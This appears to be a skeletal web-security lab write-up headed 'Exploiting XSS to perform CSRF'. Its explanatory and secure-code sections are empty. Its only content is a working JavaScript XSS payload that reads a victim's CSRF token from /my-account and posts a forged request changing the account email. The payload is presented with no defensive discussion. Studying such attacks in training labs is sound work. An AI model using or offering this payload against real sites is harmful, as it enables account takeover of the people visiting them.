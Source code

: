 ## Exploiting XSS to perform CSRF

### Objective:

### Security Weakness:

### Exploitation Methodology:

```js
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); 
	changeReq.open('post', '/my-account/change-email', true); 
	changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script>
```

### Insecure Code:

### Secure Code:


